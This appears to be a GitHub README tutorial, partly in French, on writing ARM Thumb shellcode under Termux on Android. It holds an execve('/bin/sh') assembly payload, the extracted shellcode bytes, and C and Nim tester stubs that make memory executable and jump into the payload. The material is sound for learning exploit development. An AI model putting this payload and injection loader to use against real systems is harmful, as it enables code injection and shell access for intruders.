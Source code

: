 # Shellcode développement 
  shellcode injection 
# Environnement
  ` ~ $> uname -a
Linux 2023 armv8l Android `

  `~ $> Device model:
  RMX3231`

  `~ $> Packages CPU architecture:
  arm `

  `termux-tools/stable 1.39.4 `

# requirements
  ` ~ $> nasm --v
NASM version 2.16.01 compiled on Dec 22 2022`

  ` ~ $> nim --v
Nim Compiler Version 2.0.0 [Android: arm]
Compiled at 2023-08-01
Copyright (c) 2006-2023 by Andreas Rumpf`

  `~ $> ld -v
GNU ld (GNU Binutils) 2.41`

  `~ $> as -v
GNU assembler version 2.41 (arm-linux-androideabi) using BFD version (GNU Binutils) 2.41`

  `~ $> clang/stable 17.0.4 arm `

  `~ $> gcc -v
clang version 16.0.6
Target: armv7a-unknown-linux-android24
Thread model: posix `

# file asm
create a file [shell.s](https://github.com/Dkwebpoint/shellcode/blob/d8a27ade633d2060e7ea94e51a31313262a34ec3/Shell.s)

```
GNU nano 7.2             shell.s
.global _start
.text

_start:
       .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shX"
```

# Compile and execute:

```
~ $> as shell.s -o shell.o
~ $> ld --help
--- snip --
-N, --omagic        Do not page align data, do not make text readonly.
~ $> ld -N shell.o -o shell
```
![ Use ld -N ](https://github.com/Dkwebpoint/shellcode/blob/be42d7cafd5f195efc91ec5d1cd4022ccbb6128e/IMG_20231109_055637.jpg)
# Extract the shellcode
```
~ $> objcopy -O binary shell shell.bin
~ $> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shell.bin               $>\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58
```
![extrct the shellcode](https://github.com/Dkwebpoint/shellcode/blob/702defc0e20912539f6ecb994810f9c96dc78e65/IMG_20231109_143924.jpg)

# Shellcode tester 

create a file [ShellTester.c](https://github.com/Dkwebpoint/shellcode/blob/36c5cbee6fddb6f48329b393e88a74c329c25c82/ShellTester.c)

```
GNU nano 7.2                                                 shelltester.c
/**********************************************************************
*
* Program: shelltester.c
*
* Date: 08/11/2023
*
* Purpose: This code is used to provide a C template to paste shellcode
*          into and be able to run it live from within an ELF binary's
*          char buffer. This allows you to create a buffer with the
*          shellcode globally and this program will mark it as RWX using
*          mprotect() and then finally jump into.
*
* gcc -m32 -z execstack shelltester.c -o shellcodetester
*
***********************************************************************/
#include <stdio.h>
#include <unistd.h>
#include <sys/mman.h>

/////////////////////////////////////////////////////
//  source file: shell.s
/////////////////////////////////////////////////////                                                                                        char payload[] = "\x01\x30\x8f\xe2"
                 "\x13\xff\x2f\xe1"
                 "\x02\xa0"
                 "\x49\x40"                                                                                                                                   "\x52\x40"
                 "\xc2\x71"
                 "\x0b\x27"
                 "\x01\xdf"
                 "\x2f\x62\x69\x6e"
                 "\x2f\x73\x68\x58";

int main() {
    // Print the banner.
    puts("\n\t\033[33;1m---===[ Shellcode Tester Stub v1.0 ]===---\033[0m\n");

    // Print the size of the shellcode.                                                                                                          printf(" [\033[34;1m*\033[0m] Shellcode Size:  %d\n", sizeof(payload)-1);

    // Create a function pointer to the shellcode and
    // display it to the user.
    void (*shell)();
        shell=(void (*)())payload;

    printf(" [\033[34;1m*\033[0m] Shellcode Address: %p\n", shell);

    // Calculate the address to the start of the page for the
    // the shellcode.
    void *page_offset = (void *)((int)shell & ~(getpagesize()-1));
    printf(" [\033[34;1m*\033[0m] Shellcode page: %p\n", &page_offset);

    // Use mprotect to mark that page as RWX.
    mprotect(page_offset, 4096, PROT_READ|PROT_WRITE|PROT_EXEC);

    // Finally, use our function pointer to jump into our payload.
    puts("\n\033[33;1m---------[ Begin Shellcode Execution ]---------\033[0m");
    (*shell)();

    // We likely won't get here, but might as well include it just in case.
    puts("\033[33;1m---------[  End Shellcode Execution  ]---------\033[0m");
    return 0;
}
```
# Compile and execute the shellcode with C programme 

```
~ $> gcc -o shelltester -z execstack ShellTester.c

~ $> ./shelltester

```
![execute](https://github.com/Dkwebpoint/shellcode/blob/ec30f234b6aabeda21106e148769ef09001e2b85/IMG_20231112_084450.jpg)

# Compile and execute the shellcode with NIM programme 

create a file [shelltester.nim](https://github.com/Dkwebpoint/shellcode/blob/b0b39c9f74de329dc0391d2f05f8675acedfd4be/shelltester.nim)
```
GNU nano 7.2                           test7.nim
import std/[posix, strformat]
import std/strutils

var
  payload = array[28, byte] [
  byte 0x01,0x30,0x8f,0xe2,0x13,0xff,0x2f,0xe1,0x02,0xa0,0x49,0x40,0x52,0x40,0xc2,0x71,0x0b,0x27,0x01,0xdf,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68,0x58
  ]

  (prot, flag) = (PROT_WRITE or PROT_EXEC, MAP_ANONYMOUS or MAP_PRIVATE)
  tstptr = mmap(nil, sizeof payload, prot, flag, -1, 0)
  tstptr2: pointer
  memad: int

if tstptr != nil:
  echo "Mémoire allouée avec succès a :",tstptr.repr
else:
  echo "Erreur lors de l'allocation de mémoire"                                         copyMem(tstptr, payload[0].addr, sizeof payload)
cast[proc(){.cdecl.}](tstptr)()
echo payload.repr                                                                       echo tstptr.repr # prints hello, world!
echo typeof(tstptr)

memad = cast[int](tstptr) # address, same as the one listed in repr(tstptr)!
tstptr2 = cast[pointer](memad) # generic pointer to address?
tstptr = cast[ptr string](tstptr2) # converting back to pointer to string?
echo tstptr2.repr

echo typeof(tstptr2)
if tstptr != nil:
  echo "Mémoire allouée avec succès a :",tstptr.repr
else:
  echo "Erreur lors de l'allocation de mémoire"

discard munmap(tstptr, sizeof payload)
```
```
~ $> nim compile shelltester.nim
~ $> ./shelltester
```
![nim shelltester programme ](https://github.com/Dkwebpoint/shellcode/blob/b20571cf8ffbd137fc98cc8fffeaf25ca3ca6cb7/IMG_20231112_091203.jpg)

